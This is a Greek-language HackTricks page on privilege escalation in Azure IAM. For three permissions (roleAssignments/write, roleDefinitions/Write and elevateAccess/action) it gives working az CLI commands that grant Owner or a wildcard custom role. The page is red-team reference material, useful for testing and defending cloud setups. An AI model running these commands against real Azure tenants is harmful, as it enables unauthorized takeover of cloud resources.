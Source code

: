# Az - Azure IAM Privesc (Authorization)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Azure IAM

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../az-services/az-azuread.md" %}
[az-azuread.md](../az-services/az-azuread.md)
{% endcontent-ref %}

### Microsoft.Authorization/roleAssignments/write

Αυτή η άδεια επιτρέπει την ανάθεση ρόλων σε κύριους σε μια συγκεκριμένη περιοχή, επιτρέποντας σε έναν επιτιθέμενο να κλιμακώσει τα προνόμια του αναθέτοντας στον εαυτό του έναν πιο προνομιακό ρόλο:

{% code overflow="wrap" %}
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
{% endcode %}

### Microsoft.Authorization/roleDefinitions/Write

Αυτή η άδεια επιτρέπει την τροποποίηση των αδειών που χορηγούνται από έναν ρόλο, επιτρέποντας σε έναν επιτιθέμενο να κλιμακώσει τα προνόμια χορηγώντας περισσότερες άδειες σε έναν ρόλο που έχει αναθέσει.

Δημιουργήστε το αρχείο `role.json` με το εξής **περιεχόμενο**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": [
"*"
],
"NotActions": [],
"DataActions": [
"*"
],
"NotDataActions": [],
"AssignableScopes": [
"/subscriptions/<subscription-id>"
]
}
```
Τότε ενημερώστε τις άδειες ρόλου με τον προηγούμενο ορισμό καλώντας:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Αυτή η άδεια επιτρέπει την αναβάθμιση των δικαιωμάτων και την ικανότητα ανάθεσης αδειών σε οποιονδήποτε κύριο για πόρους Azure. Προορίζεται να δοθεί στους Παγκόσμιους Διαχειριστές Entra ID ώστε να μπορούν επίσης να διαχειρίζονται τις άδειες στους πόρους Azure.

{% hint style="success" %}
Νομίζω ότι ο χρήστης πρέπει να είναι Παγκόσμιος Διαχειριστής στο Entra ID για να λειτουργήσει η κλήση αναβάθμισης.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στο** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
